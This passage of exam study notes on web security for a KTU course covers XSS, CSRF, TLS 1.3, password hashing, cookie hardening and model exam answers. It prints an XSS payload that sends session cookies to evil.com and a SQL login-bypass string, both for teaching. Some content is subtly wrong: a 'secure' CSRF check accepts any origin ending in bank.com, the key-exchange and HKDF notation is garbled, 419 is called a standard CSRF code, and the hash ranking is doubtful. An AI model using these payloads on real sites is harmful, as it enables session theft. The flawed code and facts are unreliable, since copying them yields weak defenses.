    res.send(`<h1>Search results for: ${q}</h1>`);
});

app.listen(3000);
```

**Attack URL:** `/search?q=<script>document.location='https://evil.com/?c='+document.cookie</script>`

The script runs in the victim's browser, stealing the session cookie.

---

### 3.2.2 ✅ SECURE Pattern (Output Encoding + CSP)

```javascript
const express = require('express');
const helmet = require('helmet');
const app = express();

// Add security headers (CSP, HSTS, X-Frame-Options, etc.)
app.use(helmet({
    contentSecurityPolicy: {
        directives: {
            defaultSrc: ["'self'"],
            scriptSrc: ["'self'"],
            objectSrc: ["'none'"],
            upgradeInsecureRequests: [],
        }
    },
    hsts: { maxAge: 31536000, includeSubDomains: true, preload: true },
    frameguard: { action: 'deny' }
}));

app.get('/search', (req, res) => {
    const rawQ = req.query.q || '';
    // Whitelist length and character set
    if (typeof rawQ !== 'string' || rawQ.length > 100 || /[^a-zA-Z0-9 ]/.test(rawQ)) {
        return res.status(400).send('Invalid search query.');
    }
    // Safe to embed after strict validation
    res.set('Content-Type', 'text/html; charset=utf-8');
    res.send(`<h1>Search results for: ${escapeHtml(rawQ)}</h1>`);
});

function escapeHtml(str) {
    return str.replace(/[&<>"']/g, (c) => ({
        '&': '&amp;', '<': '&lt;', '>': '&gt;',
        '"': '&quot;', "'": '&#39;'
    }[c]));
}

app.listen(3000, () => console.log('Secure server on 3000'));
```

**Why this is safe:**

- Strict whitelist regex rejects any HTML metacharacter.
- Even if validation fails, `escapeHtml` neuters `<`, `>`, `"`, `'`.
- CSP `default-src 'self'` blocks inline scripts even if XSS slips through.
- `HttpOnly` cookies (set elsewhere) prevent JS from reading them anyway.

---

## 3.3 CSRF Defense — Synchronizer Token Pattern (Python/Flask)

```python
import os
import secrets
from flask import Flask, session, request, render_template_string

app = Flask(__name__)
app.secret_key = os.environ.get("FLASK_SECRET", secrets.token_hex(32))

def generate_csrf_token() -> str:
    """Generate a fresh CSRF token for this session."""
    if "_csrf" not in session:
        session["_csrf"] = secrets.token_urlsafe(32)
    return session["_csrf"]

@app.route("/transfer", methods=["GET"])
def transfer_form():
    token = generate_csrf_token()
    html = f"""
    <form method="POST" action="/transfer">
      <input type="hidden" name="csrf_token" value="{token}">
      To: <input name="to"><br>
      Amount: <input name="amount"><br>
      <button type="submit">Send</button>
    </form>
    """
    return html

@app.route("/transfer", methods=["POST"])
def transfer_submit():
    # Defense #1: Validate CSRF token
    sent = request.form.get("csrf_token", "")
    if not secrets.compare_digest(sent, session.get("_csrf", "")):
        return "CSRF token mismatch", 403

    # Defense #2: Same-origin check (Origin / Referer)
    origin = request.headers.get("Origin", "")
    if origin and not origin.endswith("bank.com"):
        return "Cross-origin rejected", 403

    to = request.form.get("to", "")
    amount = request.form.get("amount", "0")
    # ... perform transfer ...
    return f"Transferred {amount} to {to}", 200

if __name__ == "__main__":
    app.run(ssl_context="adhoc")
```

**Why this blocks CSRF:**

- Attacker on `evil.com` cannot read `session["_csrf"]` — different origin.
- The hidden form token will be missing or wrong → `403`.
- `Origin` header cannot be spoofed by the browser on cross-site POSTs.
- For added safety, the cookie should also be `SameSite=Strict`.

---

## 3.4 TLS 1.3 Handshake — Symbolic Walkthrough

Let the following symbols denote cryptographic primitives:

$$\text{C} \rightarrow \text{S}: \quad \text{ClientHello}(\text{cipher\_suites},\ \text{key\_share}_{C} = g^{x})$$

The client generates an ephemeral X25519 keypair $(g^{x},\ g^{x})$ and sends its public share.

$$\text{S} \rightarrow \text{C}: \quad \text{ServerHello}(\text{selected\_cipher},\ \text{key\_share}_{S} = g^{y})$$$

The server replies with its ephemeral public share and selected AEAD cipher.

$$\text{S} \rightarrow \text{C}: \quad \text{EncryptedExtensions},\ \text{Certificate}(\text{X.509}),\ \text{CertificateVerify}(\text{Sig}_{S}),\ \text{Finished}(\text{MAC}_{S})$$

The server proves ownership of the certificate's private key via `Sig_S` over the handshake transcript, and finishes with a `MAC` key derived from the shared secret.

$$\text{C} \rightarrow \text{S}: \quad \text{Finished}(\text{MAC}_{C})$$

The client confirms it derived the same keys.

**Key derivation:**

$$\text{shared\_secret} = g^{xy} \quad (\text{computed independently by both})$$

$$\text{traffic\_key} = \text{HKDF-Extract}(\text{salt},\ \text{shared\_secret})$$

$$\text{key\_C2S} = \text{HKDF-Expand}(\text{traffic\_key},\ \text{"c2s traffic"}) $$

$$\text{key\_S2C} = \text{HKDF-Expand}(\text{traffic\_key},\ \text{"s2c traffic"}) $$

**Application data encryption** (AES-256-GCM example):

$$\text{ciphertext},\ \text{tag} = \text{AES-GCM-Encrypt}(K_{C2S},\ \text{nonce},\ \text{plaintext},\ \text{AAD})$$

$$\text{plaintext} = \text{AES-GCM-Decrypt}(K_{S2C},\ \text{nonce},\ \text{ciphertext},\ \text{tag})$$

> [!IMPORTANT]
> Both parties use a **fresh nonce per record** and a **new ECDHE keypair per session** — this is **Perfect Forward Secrecy**.

---

## 3.5 Password Hashing — bcrypt vs Argon2id Side-by-Side

```python
import os
import hashlib
import bcrypt
from argon2 import PasswordHasher
from argon2.exceptions import VerifyMismatchError, InvalidHashError

# --- bcrypt example ---
def hash_bcrypt(plain: str) -> bytes:
    # cost factor 12 = 2^12 = 4096 rounds
    return bcrypt.hashpw(plain.encode("utf-8"), bcrypt.gensalt(rounds=12))

def verify_bcrypt(stored: bytes, plain: str) -> bool:
    try:
        return bcrypt.checkpw(plain.encode("utf-8"), stored)
    except ValueError:
        return False

# --- Argon2id example (preferred) ---
_ph = PasswordHasher(
    time_cost=3,          # iterations
    memory_cost=64 * 1024, # 64 MiB
    parallelism=4,        # threads
    hash_len=32,
    salt_len=16,
)

def hash_argon2(plain: str) -> str:
    return _ph.hash(plain)

def verify_argon2(stored_hash: str, plain: str) -> bool:
    try:
        return _ph.verify(stored_hash, plain)
    except (VerifyMismatchError, InvalidHashError):
        return False

# --- Demo ---
if __name__ == "__main__":
    pw = "CorrectHorseBatteryStaple!42"

    b_hash = hash_bcrypt(pw)
    print("bcrypt hash :", b_hash.decode())
    print("bcrypt verify:", verify_bcrypt(b_hash, pw))

    a_hash = hash_argon2(pw)
    print("Argon2id    :", a_hash)
    print("Argon2 verify:", verify_argon2(a_hash, pw))
```

**Key engineering rationale:**

- `bcrypt`: battle-tested, cost factor tunable. Limitation: 72-byte password cap, fixed memory.
- `Argon2id`: memory-hard (resists GPU/ASIC attacks), winner of PHC competition, **OWASP-recommended**.
- Salts are generated automatically per call to `gensalt()` or `ph.hash()`.

---

## 3.6 Cookie Hardening — Production-Ready Example

```python
from flask import Flask, make_response

app = Flask(__name__)

@app.route("/login")
def login():
    resp = make_response("Logged in")
    # Production-grade cookie flags
    resp.set_cookie(
        key="session_id",
        value="<RANDOM_128BIT_HEX>",
        max_age=60 * 30,         # 30 min idle
        secure=True,             # HTTPS only
        httponly=True,           # JS can't read → XSS-resistant
        samesite="Strict",       # CSRF-resistant
        path="/",
        domain="bank.com",
    )
    # HSTS header
    resp.headers["Strict-Transport-Security"] = "max-age=31536000; includeSubDomains; preload"
    # Clickjacking protection
    resp.headers["X-Frame-Options"] = "DENY"
    # MIME sniffing protection
    resp.headers["X-Content-Type-Options"] = "nosniff"
    # Referer leakage control
    resp.headers["Referrer-Policy"] = "no-referrer"
    return resp
```

**Defense layering explained:**

- `Secure` + `HSTS` → all transport must be HTTPS.
- `HttpOnly` → JavaScript cannot exfiltrate session.
- `SameSite=Strict` → cross-site requests never carry the cookie.
- `X-Frame-Options: DENY` → cannot be embedded in iframes (clickjacking defense).
- `Referrer-Policy: no-referrer` → no URL leakage to third parties.

---

## 3.7 Threat Modeling — STRIDE Quick Reference Table

| Threat Letter | Violated Property | Example in Web Context | Mitigation |
|---|---|---|---|
| **S**poofing | Authentication | Forged JWT | mTLS, digital signatures |
| **T**ampering | Integrity | SQLi modifying data | Parameterized queries, MAC |
| **R**epudiation | Non-repudiation | User denies transaction | Audit logs, signed receipts |
| **I**nformation Disclosure | Confidentiality | Heartbleed leak | TLS, data minimization |
| **D**enial of Service | Availability | HTTP flood | Rate limiting, CDN, WAF |
| **E**levation of Privilege | Authorization | IDOR exploit | RBAC, input validation |

---

## 3.8 Securing a REST API — Minimal Checklist

| Control | Implementation Snippet (Express.js) |
|---|---|
| TLS only | `app.use((req,res,next)=>{ if(!req.secure) return res.redirect(301,'https://'+req.headers.host+req.url); next(); });` |
| Rate limiting | `app.use(rateLimit({ windowMs: 60000, max: 100 }));` |
| JWT verification | `app.use(jwt({ secret: PUB_KEY, algorithms: ['RS256'] }));` |
| CORS | `app.use(cors({ origin: ['https://app.example.com'] }));` |
| Helmet headers | `app.use(helmet());` |
| Input validation | `app.post('/users', body('email').isEmail(), body('age').isInt({min:0,max:120}));` |
<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# 4. Structural Diagrams & Schematics

## 4.1 High-Level Web Security Defense-in-Depth Architecture



**Reading the diagram:**

- All external traffic enters through the **CDN → WAF → LB** perimeter.
- Authentication is centralized in the **Auth Service** (single source of truth).
- Secrets are pulled from a **Vault** at runtime — never in code.
- Every component ships logs to the **SIEM** for real-time monitoring.

---

## 4.2 SQL Injection Attack & Defense Flow



---

## 4.3 XSS Attack & Defense Flow



---

## 4.4 TLS 1.3 Handshake Sequence



---

## 4.5 OWASP Top 10 Threat Map (Subgraph View)



**Reading the map:** Every threat category ultimately puts the sensitive datastore at risk. Defenses must be applied at **all three tiers** simultaneously.

---

## 4.6 Authentication & Session Lifecycle


<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# 5. KTU 2024 Scheme Examination Question Bank & Topic Recap

---

## 5.1 PART A — Short Answer Questions (3 Marks Each)

### Question 1: Define SQL Injection. Mention any two types of SQLi. `[KTU University Exam — Dec 2023]`

**Course Outcome:** CO2 | **RBT Level:** Remember/Understand

**Model Answer (3 Marks):**

> **Definition (1.5 Marks):** SQL Injection is a code-injection attack where an attacker inserts malicious SQL statements into an input field that the backend database executes, bypassing authentication, extracting data, or modifying records.
>
> **Types (1.5 Marks):**
> 1. **In-band SQLi** — Same channel for attack and result (e.g., UNION-based).
> 2. **Blind/Inferential SQLi** — No direct data returned; attacker infers info from True/False responses or time delays (Boolean-based / Time-based).
> 3. *(Optional third for depth)* **Out-of-band SQLi** — Data exfiltrated via DNS/HTTP to attacker-controlled server.

---

### Question 2: List any three OWASP Top 10 (2021) vulnerabilities and the primary defense for each. `[KTU University Exam — July 2024]`

**Course Outcome:** CO2 | **RBT Level:** Remember/Understand

**Model Answer (3 Marks):**

| # | OWASP Category | Primary Defense |
|---|---|---|
| 1 | **A03 Injection** (SQLi/XSS) | Parameterized queries and output encoding |
| 2 | **A02 Cryptographic Failures** | Enforce TLS 1.2+ in transit; AES-256 at rest |
| 3 | **A07 Identification and Authentication Failures** | Enforce MFA, strong password hashing (Argon2id), rate limiting |

*(1 Mark for correctly listing 3 categories with names; 1 Mark for the defenses; 1 Mark for clarity and accuracy.)*

---

## 5.2 PART B — Long Answer Questions (14 Marks Each) — Internal Choice

### Question A (14 Marks): Web Security Threats and Countermeasures `[KTU University Exam — Dec 2023]`

#### Part (a) — 7 Marks: Explain SQL Injection and Cross-Site Scripting with examples. (Understand / Apply)

**Model Answer (7 Marks):**

**SQL Injection (3.5 Marks):**

- **Definition (1 Mark):** SQL Injection is an injection attack where the attacker supplies crafted SQL fragments through user input that the application concatenates into a database query, causing unintended command execution.
- **Vulnerable example (1 Mark):**

```sql
SELECT * FROM users WHERE username = '<INPUT>' AND password = '<INPUT>';
```

- **Attack payload (1 Mark):** Username `admin' --` causes the password check to be commented out, granting unauthorized access.
- **Defense (0.5 Mark):** Use **parameterized queries** (prepared statements) where user input is bound as a parameter, not concatenated as code.

**[Stating definition and mechanism: 2 Marks | Attack payload example: 1 Mark | Defense mechanism: 0.5 Mark]**

**Cross-Site Scripting (3.5 Marks):**

- **Definition (1 Mark):** XSS is a client-side injection where malicious scripts are injected into web pages viewed by other users, executing in the victim's browser context.
- **Types (1 Mark):** Reflected, Stored, and DOM-based XSS.
- **Example (1 Mark):** A forum post containing `<script>document.location='https://evil.com/?c='+document.cookie</script>` exfiltrates the session cookie of every viewer.
- **Defense (0.5 Mark):** Output encoding, Content Security Policy (CSP), and HttpOnly cookies.

**[Definition and types: 2 Marks | Payload and impact: 1 Mark | Defense: 0.5 Mark]**

---

#### Part (b) — 7 Marks: Describe the TLS 1.3 handshake with a neat diagram. Explain Perfect Forward Secrecy. (Apply / Analyze)

**Model Answer (7 Marks):**

**TLS 1.3 Handshake (4 Marks):**

- **Step 1 (1 Mark):** Client sends `ClientHello` with supported cipher suites and an **ephemeral ECDHE public key** ($g^{x}$).
- **Step 2 (1 Mark):** Server replies with `ServerHello` selecting a cipher and its **ephemeral ECDHE public key** ($g^{y}$), plus its X.509 certificate.
- **Step 3 (1 Mark):** Server sends `CertificateVerify` (signature over handshake transcript proving private-key ownership) and `Finished` (MAC of transcript).
- **Step 4 (1 Mark):** Client verifies the chain, sends its own `Finished`. Both derive symmetric session keys via **HKDF** from the shared secret $g^{xy}$.

**Neat Handshake Diagram (1 Mark):**

```
Client                              Server
  |----ClientHello(g^x)----------> |
  |<--ServerHello(g^y), Cert,------|
  |   CertVerify, Finished        |
  |----Finished-----------------> |
  |== Encrypted Application Data ==|
```

**Perfect Forward Secrecy (2 Marks):**

- PFS means that compromise of the server's **long-term private key** cannot decrypt **past recorded sessions**.
- Achieved because TLS 1.3 uses **ephemeral ECDHE** — fresh keypair per session.
- Even if an attacker records ciphertext, then later steals the server's RSA/ECDSA key, they cannot derive past session keys (no $g^{xy}$ stored anywhere).
- This is **mandatory** in TLS 1.3; optional (via DHE/ECDHE cipher suites) in TLS 1.2.

**[Four handshake steps: 4 Marks | Diagram: 1 Mark | PFS definition and rationale: 2 Marks]**

---

### Question B (14 Marks): Session Management, Cookies, and Authentication `[KTU University Exam — July 2024]` (Alternative Choice)

#### Part (a) — 7 Marks: Explain session management in web applications. Discuss secure cookie attributes. (Understand)

**Model Answer (7 Marks):**

**Session Management Concept (3 Marks):**

- **Problem (1 Mark):** HTTP is stateless; the server cannot inherently associate consecutive requests with the same user.
- **Solution (1 Mark):** The server issues a unique **Session ID** at authentication and stores it in a cookie on the client. Subsequent requests carry the cookie, allowing the server to look up session state.
- **Storage (1 Mark):** Server-side session store (Redis, database, in-memory map) keyed by Session ID; client only holds the opaque ID.

**Secure Cookie Attributes (4 Marks):**

| Attribute | Purpose | Mark |
|---|---|---|
| `Secure` | Cookie sent only over HTTPS — prevents sniffing | 1 |
| `HttpOnly` | JavaScript cannot read — XSS cookie theft blocked | 1 |
| `SameSite=Strict/Lax` | Cookie not sent on cross-site requests — CSRF mitigated | 1 |
| `__Host-` prefix | Browser-enforced stricter rules: must be Secure, Path=/, no Domain | 0.5 |
| `Max-Age` / `Expires` | Limits session lifetime | 0.5 |

**Example header (for clarity, optional):**

```
Set-Cookie: __Host-session=abc123; Secure; Path=/; HttpOnly; SameSite=Strict; Max-Age=1800
```

**[Session concept: 3 Marks | Four attributes with explanation: 4 Marks]**

---

#### Part (b) — 7 Marks: Explain Multi-Factor Authentication. Compare bcrypt and Argon2id for password hashing. (Apply / Analyze)

**Model Answer (7 Marks):**

**Multi-Factor Authentication (3 Marks):**

- **Definition (1 Mark):** MFA requires the user to present **two or more independent credentials from different categories** during authentication.
- **Factor Categories (1.5 Marks):**
  1. **Knowledge** — password, PIN
  2. **Possession** — OTP token, smartphone
  3. **Inherence** — fingerprint, face
  4. **Location / Behavior** — geofence, typing rhythm
- **Example (0.5 Mark):** ATM card (possession) + PIN (knowledge) = MFA.

**Bcrypt vs Argon2id (4 Marks):**

| Property | bcrypt | Argon2id |
|---|---|---|
| **Year introduced** | 1999 | 2015 (PHC winner) |
| **Algorithm type** | Blowfish-based key derivation | Memory-hard hybrid |
| **Salt** | Auto-generated (16 bytes) | Auto-generated (16 bytes default) |
| **Configurability** | Cost factor $2^n$ rounds | Time $t$, Memory $m$, Parallelism $p$ |
| **Password length cap** | 72 bytes (limitation) | Unlimited |
| **GPU/ASIC resistance** | Moderate | Excellent (memory-hard) |
| **OWASP recommendation** | Acceptable | **Preferred (gold standard)** |
| **Use case** | Legacy systems, broad compatibility | New applications, high-security |

**Conclusion (1 Mark):** For new KTU-relevant web apps, **Argon2id is the recommended choice** due to its memory-hard property and resistance to modern hardware attacks; bcrypt remains acceptable for legacy compatibility.

**[MFA definition and categories: 3 Marks | bcrypt vs Argon2id comparison table: 3 Marks | Conclusion: 1 Mark]**

---

> [!WARNING]
> **KTU Examiner's Valuation Warning — Common Pitfalls to Avoid:**
>
> 1. **Forgetting the "S" in HTTPS** — many students write "SSL" when the modern protocol is **TLS 1.2/1.3**. SSL is deprecated.
> 2. **Conflating XSS and CSRF** — XSS steals data via script execution; CSRF tricks the user into submitting a forged request. They are **different** attack classes.
> 3. **Skipping "Parameterized Query" mention** in SQLi answers — the examiner awards 1 Mark specifically for the defense.
> 4. **Forgetting HttpOnly / Secure / SameSite** cookie flags — KTU specifically tests these.
> 5. **Stating "MD5/SHA-1 is enough for passwords"** — this is **wrong**; instant 0 on that sub-question.
> 6. **Not drawing the TLS handshake diagram** — KTU awards 1 Mark for a clean flow diagram in any cryptography question.

---

## 5.3 TOPIC RECAP & IMPORTANT THINGS TO REMEMBER

### 🔑 Quick-Reference Checklist (Memorize Before Exam)

- [ ] **CIA Triad:** Confidentiality, Integrity, Availability.
- [ ] **OWASP Top 10 (2021):** A01 Broken Access Control → A10 SSRF.
- [ ] **SQLi types:** In-band, Blind (Boolean + Time), Out-of-band, Second-order.
- [ ] **SQLi #1 Defense:** Parameterized queries (prepared statements).
- [ ] **XSS types:** Reflected, Stored, DOM-based, mXSS.
- [ ] **XSS #1 Defense:** Output encoding + CSP + HttpOnly cookies.
- [ ] **CSRF #1 Defense:** Synchronizer token pattern + `SameSite=Strict`.
- [ ] **Cookie flags:** `Secure`, `HttpOnly`, `SameSite`, `__Host-` prefix.
- [ ] **Session ID:** ≥ 128 bits entropy, CSPRNG, server-side invalidation on logout.
- [ ] **TLS 1.3:** 1-RTT handshake, AEAD ciphers only, mandatory PFS via ECDHE.
- [ ] **PFS:** Compromise of long-term key cannot decrypt past sessions.
- [ ] **X.509 chain:** Root CA → Intermediate CA → End-entity cert.
- [ ] **HTTPS = HTTP over TLS** (not SSL — SSL is deprecated).
- [ ] **MFA factors:** Knowledge, Possession, Inherence (+ Location, Behavior).
- [ ] **Password hashing:** Argon2id > bcrypt > scrypt > SHA-256 > MD5 (never use last two).
- [ ] **Argon2id parameters:** $t$ (time), $m$ (memory), $p$ (parallelism); tune for ~250 ms.
- [ ] **STRIDE:** Spoofing, Tampering, Repudiation, Info Disclosure, DoS, Elevation of Privilege.
- [ ] **Defense in Depth:** WAF + AuthN + AuthZ + TLS + Logging + Least Privilege.
- [ ] **Zero Trust motto:** "Never trust, always verify."
- [ ] **CSP header:** `Content-Security-Policy: default-src 'self'`.
- [ ] **HSTS header:** `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload`.
- [ ] **HTTP status codes:** $401$ Unauthorized, $403$ Forbidden, $419$ CSRF mismatch.
- [ ] **Real-world anchors:** PCI-DSS, HIPAA, OWASP ASVS, NIST SP 800-63B.

### 📌 KTU 2024 Frequently Tested Points

1. Differentiate **SQLi vs XSS** with examples and defenses.
2. Explain **CSRF attack** with a real-world banking analogy.
3. Draw and explain the **TLS 1.3 handshake**.
4. List the **OWASP Top 10** with one defense for each.
5. Compare **bcrypt vs Argon2id** — when to use which.
6. Define **Perfect Forward Secrecy** and how TLS 1.3 achieves it.
7. Describe **secure cookie attributes** — `HttpOnly`, `Secure`, `SameSite`, `__Host-`.
8. What is **session fixation** and how is it prevented?

> **Final Tip:** Treat this module as the *heart* of cyber security. KTU's paper often features **one full 14-mark question** on either SQLi+XSS or TLS+Authentication. Master both and you have secured ~30% of the Web Security marks.
<!-- SECTION_5_END -->
